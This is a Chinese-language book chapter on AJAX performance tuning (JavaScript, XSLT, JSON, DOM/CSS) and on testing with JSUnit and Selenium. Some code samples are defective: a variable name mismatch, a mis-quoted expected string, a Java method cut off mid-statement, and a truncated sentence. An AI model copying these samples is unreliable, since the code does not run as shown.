使用 `getTime()` 是在开发期间或任何探索性工作中进行基准测试的好方法。然而，当涉及检查原型或成品时，你可能需要一些功能更强大的工具。在这一点上，你可能也会对应用程序或组件 JavaScript API（其他开发人员将针对其进行编程）的性能更感兴趣。例如，在我们的 `DataView` 中，可能存在一个强有力的用例，让开发人员循环遍历 `DataView` 中的记录并更新它们的值——在这种情况下，应该定义一个明确的测试，用于检查围绕从 `DataView` 类的实例检索和更新记录的 API 方法。为此，你可以使用诸如 `entAjax.Monitor` 类之类的东西，它具有静态方法，可以使用 AOP 将性能监视代码附加到任何对象或类，以及用于在代码内联中启动和停止计时的方法。或者使用诸如 Mozilla 浏览器所使用的 Venkman 调试器或许多商业 JavaScript 分析器之一等工具也可能会很有用。无论数字说明什么，你仍然必须小心，因为由于不同 Web 浏览器之间的性能差异，基准测试出了名地困难，这意味着你需要清楚地了解最终用户的浏览器用户群分布。对企业中的大多数人来说，幸运的是这要容易得多，因为与整个互联网相比，对最终用户浏览器的控制更为严格。为了确保实现所有性能要求，在单元测试或功能测试中进行一些简单的基准测试也是一个好主意，我们稍后会看到这一点。

有了这些用于衡量代码性能的基本工具，让我们继续探讨一些可以采用的方法，以确保我们的 AJAX 应用程序以最高效率运行。你的 AJAX 应用程序基本上有三个不同的领域可能受到性能问题的严重影响，分别是 JavaScript、DOM 和网络。

## JavaScript

我们需要花一点时间讨论 JavaScript，它是 AJAX 世界的粘合剂。对于许多开发人员来说，JavaScript 在很大程度上是未知领域，许多人对它的内部工作机制知之甚少，更不用说它如何在不同浏览器之间变化了——而这种变化有时是巨大的。在处理像 JavaScript 这样的解释型语言时，始终有助于记住一些简单的事情，例如在循环内部进行昂贵的函数调用，并了解各种算法的复杂性。

与此同时，有些事情开发人员应该试着忘记，因为 JavaScript 是一种不同的“猛兽”。在许多面向对象的编程（OOP）语言中，继承和成员访问器很常见，但在 JavaScript 中，当在循环等场景中使用时，这些可能是开销很大的操作。使用继承本身——并且取决于所使用的继承类型——如果使用深度继承层次结构，可能是一个显著的性能打击。其他至少需要了解的事情是，与使用稍微不那么灵活的匿名对象相比，通过例如指定 `new Object()` 来进行 JavaScript 中的常规对象声明可能很慢，像 `{}` 这样的语法；在紧循环中访问属性时，例如在拖拽对象时处理 `onmousemove` 事件，这确实是需要考虑的因素。

在紧循环中执行代码（例如用于拖放操作）时，另一个需要考虑的重要事项是避免多余的代码，例如检查当前使用的是哪种浏览器。在紧循环中执行各种技术或浏览器检查代码，最终可能会占用大量执行时间。为避免这种情况，我们实际上可以对依赖于浏览器的 JavaScript 代码执行一个编译步骤。例如，与其让浏览器检查在每次某个函数执行时都运行，我们可以将浏览器检查移到函数外部，使其只执行一次，并将函数指针设置为特定于浏览器的函数实现。

```javascript
if (entAjax.IE)
  entAjax.browserSpecificFunction = function() {
    // IE specific code
  };
else if (entAjax.FF)
  entAjax.browserSpecificFunction = function() {
    // Firefox specific code
  };
```


另一种选择是仅提供所用 Web 浏览器需要的代码，这样还有一个额外的好处，即减少代码传输的带宽。

此外，像 AOP（面向切面编程）这样的技术，虽然从编程角度来看不错，但可能会在代码执行中引入不必要的延迟。这主要是因为每次将一个新函数附加到另一个方法之前或之后执行时，它都会被包装在一个匿名函数调用中，从而增加了需要执行的函数数量。

JavaScript 中真正的性能杀手之一是 `eval()` 函数，它接受一个参数（即一个 JavaScript 字符串），并会创建一个全新的 JavaScript 沙箱来执行代码。然后，代码将在调用 `eval()` 函数的相同作用域中执行。图 5.5 显示了在各种 Web 浏览器上 `eval()` 函数的速度与直接执行相同 JavaScript 代码的比较。



##### 图 5.5 普通 JavaScript 执行与 `eval()` 执行性能对比

最后，另一个最大的 JavaScript 性能问题罪魁祸首是字符串连接。构建字符串有两种选择：使用 `+=` 运算符（例如 `myString += "string"`），或者将每个字符串推入数组（例如 `myArray.push("string")`），然后调用 `myArray.join("")`。传统上，人们推崇数组方法，但它实际上只在 Internet Explorer 中是明确的赢家。通过使用 `array[index] = "string"` 而不是 `array.push("string")`，数组方法还能获得一些额外的性能提升。性能对字符串大小的依赖并不像对连接次数的依赖那么大，后者大致是线性的——也就是说，如果你做的连接次数加倍，所需时间也大致加倍，相对独立于你正在连接的数据量。最重要的是要认识到，数组索引方法在所有浏览器中都是最快的，并且在 Internet Explorer 中，它实现了超过一个数量级的巨大提升。

## 数据

有几种不同类型的数据需要考虑。有网页资源，如 CSS、图像、JavaScript 和视图模板，还有实际的领域数据，可以是 XML 或 JSON 格式，并在网页中渲染。

### 资源

应用程序中的所有资源都需要从服务器下载。每个新资源都会在客户端和服务器端增加开销，因为客户端和服务器需要创建一个新连接，并且大多数 Web 浏览器一次只能下载一个或两个资源。因此，量化下载所需资源所花费的时间，然后确定如何最好地减少该时间，这一点非常重要。通常，使用 Firefox 的 Firebug 插件最好地量化下载时间。Firebug 可以绘制从服务器下载的所有数据的图表，这样你实际上可以看到哪些资源耗时最长，以及它们如何相互延迟下载。yahoo.com 的网络流量看起来如图 5.6 所示。



##### 图 5.6 访问 Yahoo! 主页时的 Firebug 网络流量报告

要提高资源下载速度，需要做两件事。首先，应尽可能多地缓存资源（我们将在本章末尾更详细地讨论），并且资源应尽可能地分组。在构建时，图像可以合并成几个大图像，并使用 CSS 进行裁剪，CSS 和 JavaScript 资源也可以合并成单个大文件。

### XML 和 XSLT

讨论 AJAX 性能时，另外两个重要领域需要一些关注。网络性能和数据密切相关，这一点正是人们声称传统 XML 消息相对冗长，从而成为在 AJAX 中不使用 XML 的理由之一。但是，对于特定于领域或应用的数据结构，总是存在或多或少紧凑的 XML 表示。在许多情况下，可以重新设计应用程序中的 XML，使其更易于处理且传输更小。当需要处理大量数据，并在浏览器中使用 XSLT 实时进行过滤或排序时，XML 是 AJAX 应用程序的一个绝佳选择。如果你使用 XML DOM 访问 XML，那么你还不如直接使用 JSON 或将 XML 反序列化为 JavaScript 对象。

如果你在 AJAX 应用程序中使用 XML 数据，你很可能会使用 XSLT。对于内联网和企业，AJAX 应用程序可能需要处理 SOAP 或至少是基于 XML 的 Web 服务，在这种情况下，XSLT 非常适合。有几个方面可以优化 XSLT 以用于 AJAX。加速 XSLT 转换需要记住的最重要的事情是使用 `<xsl:key />` 元素和 `key()` 函数。当创建一个键时，会基于某个 XPath 查询在内存中创建一个快速的哈希或查找结构，从而使查询结果可以快速获取。在复杂的 XML 文档中，使用键可以产生惊人的性能优势。

在较小程度上，你还应该避免在 XPath 查询中使用通配符（`*` 或 `//`），并注意编写 XSLT 的方式。例如，如果性能在应用程序的某个关键部分成为问题，那么编写显式的 XSLT 模板（拉取式）而不是数据密集型模板（推送式）可能是合理的；我所说的显式，是指谨慎使用 `<xsl:apply-templates />`，而是选择使用 `<xsl:for-each />` 元素来循环遍历节点集。在这一点上，我们应该认识到，选择拉取式而非推送式 XSLT 设计违背了我们进行细粒度数据模板化的原则；然而，当然，在某些时候总是需要权衡取舍。

XSLT 的一个问题在于，它在不同浏览器之间的性能差异很大，尤其是在 Internet Explorer 和任何基于 Mozilla 的浏览器之间。在 Internet Explorer 和 Firefox 中，对于生成任何大量 HTML 输出，XSLT 都比通过 XML DOM 访问数据快得多，对于任何排序或过滤操作更是如此。图 5.7 显示了在 Internet Explorer 中，使用 XML DOM、遍历 XSLT 或 JSON 生成 HTML `<table>` 中不同数量行数的结果。`eval()` 的糟糕性能是 JSON 在 Internet Explorer 中如此缓慢的主要原因。



| 图例 | 描述 |
| --- | --- |
| ● IE XML DOM | 黑色圆点线 |
| ▲ IE XSLT | 灰色三角线 |
| ▽ IE JSON | 白色三角线 |

##### 图 5.7 在 Internet Explorer 6 中使用 XML DOM、XSLT 或 JSON 生成 HTML `<table>` 的方法比较

鉴于 Internet Explorer 中的 XSLT 速度很快，它有时是执行常规操作的好选择，例如使用 `format-number()` 函数格式化数字。此外，在 Internet Explorer 中使用 XSLT 的推荐方法是使用 `XSLTemplate` 对象，而不是熟悉的 `DOMDocument`。`XSLTemplate` 对象编译并缓存 XSLT 样式表，这使得未来的转换更快。

四大浏览器厂商的所有最新构建版本都支持 XSLT，因此甚至不再有任何理由使用 Google 的免费开源 Google-AJAXSLT⁴ 来提供跨浏览器的 XSLT 支持。此外，

### JSON

任何关于 AJAX 性能的讨论都不可避免地要提到 JavaScript 对象表示法（JSON），因为它不仅是 XML 的一个流行替代方案，而且在 Mozilla 浏览器中速度很快——在这些浏览器中，JavaScript 引擎的速度远远超过 XSLT 处理器。

以 JSON 表示的数据对人类来说相对易读，只需调用 JavaScript 的 `eval()` 方法并将 JSON 字符串作为参数传入，就可以轻松实例化为一个 JavaScript 对象。请记住，我们之前提到过，使用 `eval()` 做任何事情往往都比较慢。此外，对来自不可信来源的 JavaScript 代码运行 `eval()` 可能存在安全隐患，因为它可以执行任何想要的 JavaScript 代码。为了解决这个问题，出现了 JSON JavaScript 解析器；然而，无论使用哪种浏览器，它都极其缓慢。JSON 在以下场景中表现出色：仅需将少量 JavaScript 对象从服务器传递到客户端，并且不需要在客户端进行过滤或排序——对象可以在你的程序上下文中快速且轻松地实例化并使用。JSON 在网络传输中非常紧凑，能将网络流量保持在最低水平，并且对大多数服务器语言都提供了序列化器或反序列化器——不过，请在你所选用的服务器上将 JSON 的性能与 XML 进行比较。

为了比较在客户端使用 XSLT 或 JSON 的性能权衡，我们测量了对 JSON 字符串执行 `eval()` 并根据生成的 JavaScript 对象构建 HTML 字符串的速度。图 5.8 显示了与使用 XSLT 生成相同 HTML 的结果对比。可以看到，在 Firefox 中，XSLT 仅比 JSON 效率略低。

##### 图 5.8 在 Internet Firefox 1.5 中生成 HTML `<table>` 的方法比较，例如使用 XML DOM、XSLT 或 JSON



根据用户群体的不同，JSON 或 XSLT 都可能成为高性能 HTML 生成的更好选择。

### DOM 和 CSS

在使用 AJAX 时，必须理解的是：不仅更新网页内容有多种不同的方式，而且不同浏览器之间还存在不同的性能差异。同样重要的是，无论你如何更新网页，当你修改其 XHTML 内容时，浏览器中的解析和渲染引擎都需要更新其页面的内部表示（重新计算流和布局），然后将更改渲染到浏览器窗口。对于复杂页面或应用了复杂 CSS 的更改，这可能需要相当长的时间。

与 DOM 交互和更改 CSS 值也可能是耗时的操作。这两者都需要浏览器重新布局并重新渲染页面。还有一些标签，例如 `<TABLE>`，在使用任何特殊的 DOM 方法（能想到的有 `insertRow()` 和 `insertCell()`）、更改样式属性或访问计算属性（如 `offsetWidth`、`offsetLeft` 等）时往往较慢。如果你确实需要使用 `createElement()` 和 `appendChild()` 等 DOM 方法来操作节点，请确保在将元素放入渲染的 HTML 层次结构之前完成所有 DOM 操作。只有在完成新创建元素的样式和内容设置后，才应使用 `appendChild()` 或 `replaceNode()` 将生成的元素放入文档中。当然，如果你希望快速将 XHTML 插入到文档中，非标准的 DOM API 节点属性 `innerHTML` 是最快的方式。

另一方面，CSS 则是另一回事。开发人员经常面临这样的情形：需要为一组节点（例如列表或网格中的节点）应用相同的格式。在这种情况下，我们有两种选择：可以遍历所有元素并设置样式属性或单个类名，或者也可以通过 `document.styleSheets[index].cssRules` 集合（对于 Internet Explorer 则是 `document.styleSheets[index].rules`）直接访问 CSS 规则。当然，这在很大程度上取决于需要遍历的节点数量以及所应用的样式或类别的类型，但一般来说，直接修改 CSS 要快得多。此外，直接修改 CSS 而不是遍历节点列表并设置其样式或类名，可以避免其他一些隐藏的或反直觉的开销，例如直接设置样式时对子节点数量高度敏感的问题。

借助强大的 HTML DOM，还有一些非常规但高性能的方式来应用某些样式，例如背景颜色。可以通过将一个具有指定背景颜色的元素放置在需要应用背景颜色的元素后面来模拟背景颜色。在 IE 6 和 Firefox（Windows）中，这种方法实际上比通过 CSS 设置背景颜色更快。

## AJAX 的权衡

在 AJAX 应用程序中，性能无疑是非常重要的。尽管如此，与任何工程学科一样，总需要做出权衡。最终用户会使用不同的操作系统和浏览器，应用程序需要下载和处理不同数量的代码或数据，并且 AJAX 能够帮助解决不同的业务问题。你需要考虑目标用户的操作系统/浏览器统计数据，并针对这些系统的性能进行设计。此外，代码和数据的大小不仅对处理时间有重大影响，对网络延迟也有很大影响，这催生了诸如数据预取等重要的 AJAX 设计模式。归根结底，在商业环境中，让最终用户和 AJAX 应用程序的业务用例来驱动你的选择永远是明智的。无论你是一个正在构建开源 AJAX 组件的个人，还是一家正在开发新社交网络应用的初创公司，你都需要考虑最终用户是谁以及他们如何使用产品。

对 AJAX 应用程序进行性能调优几乎总是会让开发人员反思他们在所使用的 JavaScript 基础设施和所处理数据类型方面所做的选择。在许多方面，尽管如今的计算机功能强大，编写企业级 AJAX 应用程序与为实时系统编写汇编代码颇为相似；要使其快速运行，你必须愿意跳出面向对象编程的最佳实践，去做真正有效的事情，而不是做让代码易于阅读和维护的事情。这与我们在本书中所倡导的软件工程的一些主要原则背道而驰。然而，在任何软件项目中，各种需求之间总是存在着微妙的平衡，所以不要害怕在 AJAX 应用程序开发中尝试一些新方法。

## 测试

在软件工程师的职业生涯中，会有很多次需要修复自己代码的情况——这是不可避免的。如果运气不错，大部分代码修复将发生在计划内的重构期间，或者通过经过深思熟虑的测试安全网捕获到 bug。我们将重点关注后者，因为我们坚信“预防为主”的文化，这种文化也能使你在未来进行更改时高度确信所做的更改不会破坏其他之前已经编写并测试过的代码。

测试并不是我们为了金钱或名誉而想做的事情——它是我们创建高质量软件所必须做的事情。如果我们能够让测试变得足够简单，并培养一种编写高质量测试的文化——正如 XP 开发和 Ruby on Rails 等框架所大力推动的那样——它将大大有助于提高软件质量。在讨论测试时，与其空泛地谈论难以量化的内容……

量化衡量诸如软件质量等指标时，我们使用适合软件开发结构的术语来讨论，即时间和费用。以务实而彻底的方式编写覆盖软件重要方面的测试，应当能够通过发现漏洞来证明其价值，从而让你的质量保证团队物超所值。这一点在 AJAX 开发中尤为贴切，因为测试具有很高价值——调试极为困难，且开发环境变化如此之快，使得可复用测试成为必要，例如，确保旧代码在新浏览器中正常运行。

### 测试驱动开发

测试和质量保证虽然是任何软件项目中最重要的部分，但远非所有开发者都会去做。然而，它被搁置一旁也有其原因：预算被削减、时间线被压缩、工具不够好，等等。事实上，尽管许多开发者有强烈的测试意愿，但他们总能找到某些理由，任何理由，来不为代码编写测试。然而，编写测试对于构建高质量软件产品至关重要——除非你是那种一次就能写出无懈可击的代码，并能记住每一行代码的作用，以至于在维护或重构时不会破坏任何东西的“牛仔”。对这些人，我只能祝你好运！测试如此重要，以至于不仅存在通用的质量保证标准，例如诞生于二战期间用于提升武器质量的 ISO 9001，甚至还有专门针对软件的标准。虽然测试可能不如初次就追求编写完美无瑕的代码那样有趣，但除了发现软件漏洞这一显而易见的目的之外，测试还有许多附加益处。第一个益处，也是一个很棒的益处，就是你可以通过查看现有测试以及其中失败的比例，从高层次了解代码覆盖率——它可以作为开发进展的绝佳晴雨表，也是技术瓶颈所在的重要指标。

无论你采用何种开发流程，测试都能融入开发过程的每个阶段。在需求收集、设计、规划、开发、执行和报告阶段，都要注意测试目标。测试和所有相关质量保证活动应当占据任何开发工作日程的显著部分。

如今最受欢迎的测试方法之一是测试驱动开发（TDD），它强调从项目一开始就拥有测试的重要性。最初，所有测试都应该失败——因为尚未编写任何代码——然后开始编码以使测试通过。测试通过后，重复这一过程。TDD 不仅确保代码按预期工作，还迫使开发者编写可维护的测试来捕获回归漏洞，并让项目设计目标在开发者脑海中保持清晰。编写测试来验证代码执行结果，也能基于开发者编写测试的过程，为 API 设计提供宝贵反馈。TDD 对于 AJAX 开发尤为相关，因为它强调拥有测试库，这在例如新版本的 Web 浏览器发布时帮助极大，也符合 AJAX 应用的特性（如规模小、JavaScript 调试工具匮乏以及动态特性）。

无论是否采用 TDD 方法，仍然需要各种类型的测试。让我们看看如何为 AJAX 应用构建各种类型的测试。

### 单元测试

单元测试是任何软件项目的第一道防线，也是极限编程方法的基石。单元测试主要用于在 API 方法级别测试应用的基本构建模块。一套良好的单元测试可以覆盖给定代码单元的所有执行路径，特别关注覆盖各种边界情况。虽然在最基本层面确保代码正常工作乃是单元测试的核心驱动力，但单元测试还有一个常被忽视的益处：它可以提供关于代码的相当程度的文档——展示单元的常见使用场景，以及有效的输入和输出。事实上，单元测试应当与应用功能、需求或用例相当匹配。我们对于单元测试不再赘述，因为它很可能已经是大多数开发者熟悉的工具。

我们在此关注的是，它在测试 AJAX 应用时究竟如何运作。首选的单元测试框架是 JSUnit。⁵ JSUnit 使用一个测试运行器网页，该网页具有基本的用户界面，使你能够在 Web 浏览器内执行 JavaScript 单元测试。与 JSUnit 互补的两款软件是 JSMock⁶ 和 HTTPUnit⁷。JSMock 是一个模拟对象库，专注于为 JavaScript 测试提供一种简单有效的模拟对象创建方法。另一方面，HTTPUnit 可用于测试服务器端代码以及客户端与服务器之间的请求和响应交互，且无需在 Web 浏览器中运行。

### JSUnit

从内部来看，JSUnit 与几乎所有其他单元测试框架几乎无异。你只需创建一个单元测试页面，包含运行 JSUnit 所需的正确 JavaScript 文件以及测试函数本身。页面中的函数通过以“test”一词为前缀来被识别为测试。与其他单元测试框架一样，只有少数几个特殊函数可能需要你充分了解以最佳利用 JSUnit。需要了解的基本可选函数有 `setUpPage()`、`setUp()` 和 `tearDown()`。`setUp()` 和 `tearDown()` 应该是大家熟悉的函数，如果在测试页面中定义，它们会在每个测试运行前后执行。另一方面，`setUpPage()` 稍微专业一些，仅在页面首次加载时运行一次。为了运行页面中的测试，在使用 `setUpPage()` 函数的情况下，需要将名为 `setUpPageStatus` 的全局变量设置为 `"complete"` 值，测试才能继续。其他重要的函数是 `assert([comment], bool)` 函数及其变体（`assertTrue`、`assertFalse`、`assertEquals`、`assertNotEquals`、`assertNull` 等），它们用于检查条件，如果条件不满足则抛出错误。最后，还有其他可用且无需多作解释的函数，包括 `warn()`、`inform()` 和 `debug()`。无论如何，将单元测试应用于我们代码的理想起点是我们在前一章定义的 `SimpleDataTable` 类。对于这个类，我们需要确保能够实例化该类，并且能够执行所有必需的 CRUD 操作——这也应当包括从服务器检索数据以及将新数据持久化到服务器。以下是 `SimpleDataTable` 类的部分单元测试页面。

⁶: http://jsmock.sourceforge.net

⁷: http://httpunit.sourceforge.net

```html
```


```html
<html xmlns:ea="http://www.enterpriseajax.com/">
  <head>
    <title>JSUnit SimpleDataTable Tests</title>
    <meta http-equiv="Content-Type" content="text/html;charset=UTF-8">
    <script type="text/javascript" src="jsunit/app/JSUnitCore.js"></script>
    <script type="text/javascript">
var ds;
var dt;

function setUpPage()
{
    setUpPageStatus = "complete";
}

function setUp()
{
    ds = createDataSource();
    dt = new entAjax.SimpleDataTable({
      "SaveHandler":"/Products/ProductsUpdate.ashx",
      "GetHandler":"/Products/ProductsList.ashx"});
    dv.loadData(ds);
}

function testSimpleDataTableSave()
{
    var deletedRecords = dt.deleteRecords(1, 2);

    dt.updateRecords([{"Index":0,"lastName":"thomas"}]);

    assert(entAjax.serialize(dt.getLog()) ==
      "{'\"Delete\"':["+
        "{'\"firstName\"':\"james\",\"lastName\"':\"douma\"},"+
        "{'\"firstName\"':\"jake\",\"lastName\"':\"devine\"}"+
      "],"+
      "'\"Update\"':["+
        "{'\"firstName\"':\"dave\",\"lastName\"':\"thomas\"}"+
      "],"+
      "'\"Create\"':[]}");
}
    </script>
```

### 功能测试

借助 JavaScript 和 iframe，Selenium 让开发者能够在浏览器内搭建自动化单元测试。这里的关键在于，这些测试的运行方式与真实用户亲自测试应用几乎完全相同。相比于功能测试，单元测试简直是小菜一碟。功能测试才是真正检查我们的代码是否满足高层项目需求的环节。这包括从具体的用户交互到国际化和无障碍性的全方位测试。

要让功能测试发挥作用，首要前提是我们必须清楚高层需求——这应当是理所当然的——其次是我们需要准备好测试数据和用例来验证功能——这往往更为困难。与单元测试可以以务实且有效的方式进行不同，功能测试很容易迅速变成一个泥潭，吞噬本应用于构建软件的时间。

功能测试之所以会迅速变味，原因是多方面的；其中最重要的因素是功能测试极易脆弱，这会显著降低其净收益。

根据你所使用的 AJAX 服务器框架，可用于软件功能测试的工具也各有不同。然而，在众多工具中，有一个鹤立鸡群、且能用于任何类型 HTML 用户界面的工具，那就是 Selenium。Selenium 和 JSUnit 一样，提供一个运行在 Web 浏览器中的测试运行器前端，将测试脚本应用于测试页面。

在 Selenium 测试运行器中运行的测试采用原生 HTML 表格编写——这并非编写测试的最佳方式。每条测试语句都用“Selenese”语言编写，由一个三列表格组成，每行容纳一条命令和最多两个参数。下面摘自 Selenium 网站的一个简单登录测试示例：

```html
<TABLE>
  <TR><TD>`setVariable`</TD><TD>url</TD><TD>'www.example.com'</TD></TR>
  <TR><TD>`open`</TD><TD>${url}</TD><TD></TD></TR>
  <TR><TD>`type`</TD><TD>__ac_name</TD><TD>${username}</TD></TR>
  <TR><TD>`type`</TD><TD>__ac_password</TD><TD>${username}</TD></TR>
  <TR><TD>`click`</TD><TD>submit</TD><TD></TD></TR>
  <TR><TD>`verifyTextPresent`</TD><TD>Welcome!</TD><TD></TD></TR>
  <TR><TD>`click`</TD><TD>//a[@href='${myfolder_url}']</TD><TD></TD></TR>
  <TR><TD>`click`</TD><TD>//a[@href='${homepage_url}']</TD><TD></TD></TR>
  <TR><TD>`open`</TD><TD>${member_url}</TD><TD></TD></TR>
  <TR><TD>`verifyTextPresent`</TD><TD>Welcome ${username}</TD><TD></TD></TR>
</TABLE>
```

由于手动编写这些测试非常痛苦，Selenium 还提供了一款 Selenium IDE 产品（以 Firefox 扩展的形式提供），可以记录用户在 Selenese 语言中的操作。除了记录鼠标点击或按键操作外，还可以通过右键单击 HTML 页面中的任何元素来记录上下文菜单中的一系列额外操作。

在记录完用户操作后，测试可以保存并运行。这使得临时功能测试的记录变得容易得多，几乎令人可以接受；然而，更棒的是，任何已记录的测试都可以从默认的 Selenese 语言转换为任何其他受支持的语言（Java、.NET、Perl、Python 等），并且可以与 Selenium 的第三部分——Selenium Remote Control（RC）结合使用。

Selenium RC 基于服务器端，使你能够用自己喜欢的服务器端语言（甚至 JavaScript）编写 Selenium 测试，并让这些测试在远程服务器上的 Web 浏览器中执行（见图 5.11）。测试结果随后可以通过 POST 发送回任何所需的网页，以便记录这些信息。

要使用 Remote Control，RC 服务器可以运行在任意数量的服务器上，开发者可以从他们的 JUnit 运行器（如 Eclipse）启动测试。结果可以在他们的 IDE 中查看。该服务器基于 Java，在 Windows 上可以使用以下命令启动：

```bash
java -jar selenium-server.jar
```

在运行测试的远程服务器上，可以打开一个 Web 浏览器，测试运行器可以加载 Java 测试类中指定的相应测试页面。图 5.12 显示了 Selenium 测试运行器的结果。将测试分布在多台远程计算机上还有一个额外的好处，即我们可以快速运行测试，并显著改善工作流程。

为了以一种能够促进软件变更的方式来构建测试，从而提高测试的寿命和价值，我们首先创建一个 `BaseTest` Java 类。`BaseTest` 类将有助于屏蔽使用 Selenium 的细节，并抽象出我们希望在特定 AJAX 应用程序或组件上下文中执行的一些操作。

特别是，在处理上一章中的行为型 DataGrid 时，我们可能希望通过 ID 检索明确的 HTML 元素，并将这些值与预期值以及使用官方 API 时 DataGrid 组件认为存在的值进行比较。

在 `BaseTest` 类中，我们需要导入 `junit.framework.*` 包，以及 `com.thoughtworks.selenium.*` 包。同样重要的是 JUnit 中常规的 `setUp()` 和 `tearDown()` 方法，我们分别用它们来启动和停止 Selenium 会话。

Selenium 的工作方式会使得访问 DOM 节点尤其困难，为了增加一些灵活性，我们专门编写了一些方法，用于获取 HTML 表格单元格的值、获取 HTML 元素、获取 DataGrid 列的 ID，以及点击 DataGrid 列标题。

创建这些方法意味着，如果出于某种原因需要更改 DataGrid 中标题单元格 ID 的格式，我们只需在使用所有其他测试的基类中更改一处即可。这使得处理此类结构变更的测试更新工作变得容易得多。

```java
package EnterpriseAjax;

import junit.framework.*;

import com.thoughtworks.selenium.*;

public class BaseTest extends TestCase {

  protected Selenium selenium;

  protected String testWindow = "ntbtestdoc";

  protected String browser = "firefox";

  protected int serverPort = 4444;

  protected String server = "localhost";

  protected String startUrl = "http://localhost";

  protected void setUp(String url)
  {
    this.selenium = new DefaultSelenium(this.server,
```

```java
protected String getTableCellValue(String id, int row, int col)
{
  return
    this.selenium.getEval(
      this.getElement(id)+".rows["+row+"].cells["+col+"].innerHTML"
    );
}

protected String getElement(String id)
{
  return
    "frames['myiframe'].document.getElementById('"+id+"')";
}

protected String getHeaderId(int colIndex)
{
  return "header-"+colIndex;
}

protected void clickColumn(int colIndex)
{
  String columnId = getHeaderId(colIndex);

  // 点击具有指定ID的DOM元素
  selenium.click(columnId);
}

public void tearDown() throws Exception
{
  this.selenium.stop();

  super.tearDown();
}

}
```

实际的测试类相当简短，毫无疑问，比使用 HTML `<TABLE>` 语法编写的等效测试要短得多。

在 `testBehaviouralGrid()` 测试中，我们首先打开测试页面，然后执行条件等待，以确保 DataGrid 在 3 秒内渲染完成。（这对于声明式组件是必要的，因为当 HTML 加载完成时，DataGrid 不一定已经渲染好。）

然后我们断言 DataGrid 的第一个单元格的值是 `"Acme Box."`。测试的第二部分是点击 DataGrid 第一列的标题，这应该会导致数据排序，然后我们再次断言 DataGrid 第一个单元格中的值现在是排序后的正确值。

```java
package EnterpriseAjax;

import junit.framework.*;

import com.thoughtworks.selenium.*;

public class BehaviourGridTest extends BaseTest
{
  private String url = "http://localhost/testpages/behaviourgrid.html";

  private String gridId = "myBehaviouralGrid";

  public void testBehaviouralGrid() throws Throwable
  {
    this.selenium.open(this.url);

    // 获取行为网格并检查第一个单元格的值。
    this.selenium.waitForCondition(this.getElement(this.gridId),"3000");

    assertEquals("Acme Box",this.getTableCellValue(this.gridId,1,0));

    // 点击第一列标题
    this.clickColumn(0);

    assertEquals("Acme Anvil",this.getTableCellValue(this.gridId,1,0));
  }
}
```


为了进行有效的回归测试，至关重要的是我们使用如 JUnit 和 Java 这样的工具，以精心规划和抽象的方式编写功能测试，这样我们才能在开发过程中保持敏捷，而不会因代码更改而陷入不断修复测试的泥潭。

### 回归测试

回归测试就是在日后重新运行单元测试或功能测试，以确保之前编写的代码仍按预期工作的行为。当软件中的新功能被编写出来，而相关的依赖关系未被完全理解时，就会出现回归缺陷。无论项目中有一个庞大的开发团队，回归缺陷无疑是最糟糕的缺陷类型之一，因为它们可能导致软件项目严重延误，甚至更糟的是，在总是相互竞争的开发者之间造成“政治”问题。无论出现什么问题，回归缺陷的代价都是高昂的。基于这两个简单的原因，现在要小心了，尽管有成为有纪律的编码者并为所有代码创建自动化测试的诱惑；回归测试是一条湿滑的斜坡，必须极其谨慎地规划和导航，以防止事情严重出错。在大多数情况下，编写和运行单元测试是一项简单的练习；编写和运行功能测试是可行的，即使只借助 Selenium IDE 这样的工具。虽然在理想世界中，回归测试很有吸引力，但它是一件既值得敬畏又令人畏惧的事情。当前对自动化测试的主流态度是必须进行测试；然而，我们认为，在制定务实的软件开发方法的大局观中，仍需要对其进行考量。

回归测试或自动化测试通常成本高昂。主要的开销并非来自创建测试所需的时间——尽管这可能很显著——而是主要来自于当软件架构发生变化时修复测试的费用。AJAX 应用程序尤其容易出现自动化测试中断的情况，这并非因为缺陷，而是因为设计变更。例如，构建任何明确引用动态生成的 DOM 元素 ID 或对特定 DOM 元素使用显式 XPath 的测试，当意识到由于可访问性、性能或效率等未预料到的原因需要更改整个 DOM 结构时，这些测试就很容易成为成本中心。尽管自动化测试的创建初衷是为了发现回归缺陷——它们在这方面表现出色——但它们真正的价值在于发现与测试最初编写的具体目的完全无关的缺陷。遗憾的是，这在设计不佳的测试中经常发生。一个经过深思熟虑的测试架构和理念可以确保你的测试对底层软件的变化具有弹性，并且测试设计良好，具有良好的代码覆盖率。

